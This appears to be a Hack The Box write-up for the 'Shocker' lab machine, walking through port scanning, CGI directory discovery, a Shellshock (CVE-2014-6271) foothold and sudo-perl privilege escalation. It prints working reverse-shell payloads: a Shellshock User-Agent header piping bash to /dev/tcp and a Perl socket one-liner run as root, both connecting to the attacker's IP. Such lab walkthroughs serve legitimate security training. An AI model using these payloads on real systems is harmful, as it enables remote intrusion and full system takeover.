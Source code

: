 ```yaml
---

title: 🟢 HTB - Shocker
author: Acivik
date: 2025-01-24 12:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Shocker, walkthrough, easy, linux]

---
```


![https://i.ibb.co/Rj9TB0S/Shocker.png](https://i.ibb.co/Rj9TB0S/Shocker.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap detected 2 open TCP ports: 80(HTTP) and 2222(SSH)

```bash
root@kali:~/HTB/shocker# nmap -p- -sT --min-rate 10000 10.10.10.56 --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 08:49 UTC
Nmap scan report for 10.10.10.56 (10.10.10.56)
Host is up (0.063s latency).
Not shown: 63401 closed tcp ports (conn-refused), 2132 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
root@kali:~/HTB/shocker# nmap -sVC -p2222,80 --min-rate 1000 10.10.10.56
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 08:50 UTC
Nmap scan report for 10.10.10.56 (10.10.10.56)
Host is up (0.069s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.14 seconds
root@kali:~/HTB/shocker#
```

When we check the OpenSSH version, we can deduce that it is an outdated operating system. (Ubuntu 16.04)

# <span style="color:#AA0E1C"><b># Enumeration</b></span>

## <span style="color:#0096FF">WebSite</span>

There’s not interesting on page.

![https://i.ibb.co/gS6XPT6/Ekran-g-r-nt-s-2025-01-14-115145.png](https://i.ibb.co/gS6XPT6/Ekran-g-r-nt-s-2025-01-14-115145.png)

Just a image

### <span style="color:#FFC300">Directory Brute Force</span>

```bash
root@kali:~/HTB/shocker# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.10.56/FUZZ/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cgi-bin                 [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 59ms]
icons                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 64ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

root@kali:~/HTB/shocker#
```

We found cgi-bin directory. The standard directory name commonly used to execute scripts via CGI is typically known as cgi-bin.
I will try detect name of script file.

```bash
root@kali:~/HTB/shocker# dirsearch -u http://shocker.htb/cgi-bin/ -e sh

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 25 | Wordlist size: 9479

Output File: /root/HTB/shocker/reports/http_shocker.htb/_cgi-bin__25-01-14_09-27-36.txt

Target: http://shocker.htb/

[09:27:36] Starting: cgi-bin/
[09:27:39] 403 -  305B  - /cgi-bin/.ht_wsr.txt
[09:27:39] 403 -  308B  - /cgi-bin/.htaccess.bak1
[09:27:39] 403 -  308B  - /cgi-bin/.htaccess.orig
[09:27:39] 403 -  308B  - /cgi-bin/.htaccess.save
[09:27:39] 403 -  310B  - /cgi-bin/.htaccess.sample
[09:27:39] 403 -  308B  - /cgi-bin/.htaccess_orig
[09:27:39] 403 -  309B  - /cgi-bin/.htaccess_extra
[09:27:39] 403 -  306B  - /cgi-bin/.htaccess_sc
[09:27:39] 403 -  306B  - /cgi-bin/.htaccessOLD
[09:27:39] 403 -  306B  - /cgi-bin/.htaccessBAK
[09:27:39] 403 -  307B  - /cgi-bin/.htaccessOLD2
[09:27:39] 403 -  299B  - /cgi-bin/.html
[09:27:39] 403 -  298B  - /cgi-bin/.htm
[09:27:39] 403 -  304B  - /cgi-bin/.htpasswds
[09:27:39] 403 -  308B  - /cgi-bin/.htpasswd_test
[09:27:39] 403 -  305B  - /cgi-bin/.httr-oauth
[09:28:36] 200 -  119B  - /cgi-bin/user.sh
```

found it

# <span style="color:#AA0E1C"><b># Foothold: Shell as shelly</b></span>

The 2014 CVE ID that describes a remote code execution vulnerability in Bash when invoked through Apache CGI is: CVE-2014-6271

This vulnerability is commonly known as Shellshock. Let's exploit it.

```bash
User-Agent: () { :;}; echo; /bin/bash -l > /dev/tcp/10.10.14.41/1213 0<&1 2>&1
```

Port listining for reverse shell.

```bash
root@kali:~/HTB/shocker# nc -lnvp 1213
listening on [any] 1213 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.56] 33518
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
which python3
/usr/bin/python3
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
shelly@Shocker:/usr/lib/cgi-bin$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: shelly → root</b></span>

Firstly check sudo -l output.

```bash
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/tmp$
```

We can execute pert as root.

```bash
shelly@Shocker:/tmp$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.41";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Port listining for get reverse shell from root.

```bash
root@kali:~/HTB/shocker# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.56] 40702
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
